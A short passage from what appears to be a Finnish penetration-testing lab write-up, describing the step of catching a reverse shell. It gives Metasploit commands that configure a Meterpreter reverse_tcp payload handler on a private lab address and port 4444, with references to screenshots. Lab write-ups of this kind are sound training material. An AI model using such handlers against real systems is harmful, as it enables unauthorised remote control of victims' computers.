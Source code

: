 BUAHAHAHAHAHA!!!!!! Seuraavaksi payload handler ja reverse shelliin pääsy

```
msfconsole -q
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.56.101
set lport 4444
run
```

![alt text](image-39.png)

Loin toisen terminaali-ikkunan, jotta voin jatkaa tehtävässä eteenpäin.

![alt text](image-40.png)
